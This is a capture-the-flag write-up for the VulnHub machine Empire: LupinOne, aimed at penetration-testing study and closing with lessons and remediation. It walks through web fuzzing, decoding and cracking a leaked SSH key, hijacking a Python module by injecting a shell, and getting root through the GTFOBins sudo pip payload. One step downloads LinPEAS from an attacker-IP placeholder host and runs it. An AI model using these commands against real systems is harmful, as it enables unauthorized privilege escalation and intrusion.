





# Empire: LupinOne — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.2 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/empire-lupinone-vulnhub-walkthrough/) |

## Attack Summary

Empire: LupinOne is a medium-difficulty VulnHub machine themed around the character Lupin. The attack chain starts with finding a hidden web directory that contains a Base58-encoded SSH private key. The key passphrase is cracked with John the Ripper. Once on the box as `icex64`, Python library hijacking is used to pivot to user `arsene` via a sudo-permitted script. Finally, `arsene` can run `pip` as root without a password, which is abused using the GTFOBins pip technique to obtain a root shell.

## Methodology

1. Network scan with nmap to find SSH and HTTP
2. Source code review of the web page to find a hidden hint
3. Directory fuzzing with ffuf to discover `/~secret`
4. Second fuzzing pass to find `mysecret.txt` containing a Base58-encoded SSH key
5. Key passphrase cracking with ssh2john and John the Ripper
6. SSH login as `icex64`
7. Python library hijacking via a writable `webbrowser` module to pivot to `arsene`
8. sudo pip GTFOBins technique to obtain a root shell

## Step 1: Network Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -sC -sV 192.168.1.2
```

Open ports:
- **22/tcp** — SSH (OpenSSH)
- **80/tcp** — HTTP (Apache)

The HTTP service exposes a path `/~myfiles`.



## Step 2: Web Enumeration — Finding the Hidden Directory

Browse to `/~myfiles/` — the response is a 404, but view the page source. A comment in the HTML encourages the tester to keep looking.

Run ffuf with a common wordlist to fuzz for user directories:

```bash
ffuf -u http://192.168.1.2/~FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Found: `/~secret`



## Step 3: Finding the SSH Key

Run a second fuzzing pass on `/~secret/` with file extensions:

```bash
ffuf -u http://192.168.1.2/~secret/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.html
```

Found: `mysecret.txt`

Download and inspect the file:

```bash
wget http://192.168.1.2/~secret/mysecret.txt
cat mysecret.txt
```

The content is Base58-encoded. Decode it using an online Base58 decoder or:

```bash
# Using python with base58 library
python3 -c "import base58; data=open('mysecret.txt','rb').read().strip(); print(base58.b58decode(data).decode())" > id_rsa
```

The decoded output is a PEM-formatted SSH private key for user `icex64`.



## Step 4: Cracking the SSH Key Passphrase

Convert the SSH key to a hash format for John the Ripper:

```bash
chmod 600 id_rsa
python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt id_rsa.hash
# Alternative: john --wordlist=/usr/share/wordlists/fasttrack.txt id_rsa.hash
```

Passphrase recovered: **P@55w0rd!**

## Step 5: SSH Login as icex64

```bash
ssh -i id_rsa icex64@192.168.1.2
# Enter passphrase: P@55w0rd!
id
# uid=1000(icex64)
```

## Step 6: Python Library Hijacking — Pivoting to arsene

Check sudo permissions:

```bash
sudo -l
# (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

Download LinPEAS to identify the imported library:

```bash
# On attacker:
python3 -m http.server 80

# On target:
cd /tmp
wget http://<attacker-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS identifies that `heist.py` imports `webbrowser`, which resolves to a writable path. Locate it:

```bash
python3 -c "import webbrowser; print(webbrowser.__file__)"
ls -la /usr/lib/python3.9/webbrowser.py
```

Edit the module to inject a shell at the top:

```bash
nano /usr/lib/python3.9/webbrowser.py
# Add at the very beginning, before other imports:
# import os; os.system("/bin/bash")
```

Run the sudo command to trigger the hijack:

```bash
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
id
# uid=1001(arsene)
```



## Step 7: Privilege Escalation via sudo pip

Check sudo permissions as arsene:

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/pip
```

Use the GTFOBins pip technique to get a root shell:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

Confirm root and read the flag:

```bash
id
# uid=0(root)
cat /root/root.txt
```



## Lessons Learned

- Sensitive files (SSH keys, credentials) must never be placed in web-accessible directories, even in obscure paths; directory enumeration will find them.
- Encoding data (Base58, Base64) is not encryption; it provides zero security.
- SSH private keys should always use strong, unique passphrases and should be rotated when compromised.
- Python library hijacking is possible when a privileged script imports modules from a writable directory; system Python libraries must be owned by root and not writable by unprivileged users.
- `pip install` run as root is functionally equivalent to unrestricted root code execution; never grant sudo access to pip.

## Remediation

| Vulnerability | Fix |
|---|---|
| SSH key in web-accessible directory | Store keys only in secure, non-web-accessible locations; use proper ACLs |
| Weak key passphrase | Use a strong passphrase (20+ characters); consider hardware keys |
| Writable Python library module | Ensure `/usr/lib/python*` directories are owned by root and not world-writable |
| sudo python3 running user script | Avoid sudo on interpreters; if needed, restrict to absolute paths with no arguments |
| sudo pip as root | Remove the sudo rule; use virtual environments with restricted permissions |
